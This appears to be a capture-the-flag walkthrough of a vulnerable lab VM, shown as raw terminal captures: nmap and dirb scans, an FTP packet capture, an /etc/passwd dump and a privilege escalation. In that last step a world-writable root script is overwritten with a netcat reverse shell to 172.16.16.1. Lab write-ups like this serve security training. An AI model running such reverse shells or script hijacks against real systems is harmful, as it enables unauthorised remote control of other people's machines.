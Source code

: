 └─$ sudo nmap -sT -A -Pn -n -T4 -p-  172.16.16.128 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 16:36 CEST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:36 (0:00:03 remaining)
Nmap scan report for 172.16.16.128
Host is up (0.00031s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.16.16.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:39:E9:62 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 172.16.16.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds



└─$ dirb http://172.16.16.128                   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug  3 16:41:19 2021
URL_BASE: http://172.16.16.128/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.16.16.128/ ----
+ http://172.16.16.128/index.html (CODE:200|SIZE:36)                                                                                                                                       
+ http://172.16.16.128/robots.txt (CODE:200|SIZE:31)                                                                                                                                       
==> DIRECTORY: http://172.16.16.128/secret/                                                                                                                                                
+ http://172.16.16.128/server-status (CODE:403|SIZE:293)                                                                                                                                   
                                                                                                                                                                                           
---- Entering directory: http://172.16.16.128/secret/ ----
+ http://172.16.16.128/secret/index.html (CODE:200|SIZE:37)                                                                                                                                
                                                                                                                                                                                           
-----------------
END_TIME: Tue Aug  3 16:41:23 2021
DOWNLOADED: 9224 - FOUND: 4


lol.pcap
220 (vsFTPd 3.0.2)
USER anonymous
331 Please specify the password.
PASS password
230 Login successful.
SYST
215 UNIX Type: L8
PORT 10,0,0,12,173,198
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 10,0,0,12,202,172
200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.
TYPE A
200 Switching to ASCII mode.
PORT 10,0,0,12,172,74
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.


Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!



//
// This file was generated by the Retargetable Decompiler
// Website: https://retdec.com
// Copyright (c) Retargetable Decompiler <info@retdec.com>
//

#include <stdint.h>
#include <stdio.h>

// ------------------------ Functions -------------------------

// Address range: 0x804841d - 0x8048434
int main(int argc, char ** argv) {
    // 0x804841d
    return printf("Find address 0x0856BF to proceed");
}

// --------------- Dynamically Linked Functions ---------------

// int printf(const char * restrict format, ...);

// --------------------- Meta-Information ---------------------

// Detected compiler/packer: gcc (4.8.2)
// Detected functions: 1



$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
troll:x:1000:1000:Tr0ll,,,:/home/troll:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:112:ftp daemon,,,:/srv/ftp:/bin/false
lololol:x:1001:1001::/home/lololol:
overflow:x:1002:1002::/home/overflow:
ps-aux:x:1003:1003::/home/ps-aux:
maleus:x:1004:1004::/home/maleus:
felux:x:1005:1005::/home/felux:
Eagle11:x:1006:1006::/home/Eagle11:
genphlux:x:1007:1007::/home/genphlux:
usmc8892:x:1008:1008::/home/usmc8892:
blawrg:x:1009:1009::/home/blawrg:
wytshadow:x:1010:1010::/home/wytshadow:
vis1t0r:x:1011:1011::/home/vis1t0r:




overflow@troll:/tmp$ ls -al /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
$ vi /lib/log/cleaner.py



$ cat /lib/log/cleaner.py
echo "#!/usr/bin/env python" > /lib/log/cleaner.py
echo "import os" >> /lib/log/cleaner.py
echo "import sys" >> /lib/log/cleaner.py
echo "try:" >> /lib/log/cleaner.py
echo "    os.system('rm /tmp/backpipe; mknod /tmp/backpipe p; nc 172.16.16.1 443 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe')" >> /lib/log/cleaner.py
echo "except:" >> /lib/log/cleaner.py
echo "    sys.exit()" >> /lib/log/cleaner.py


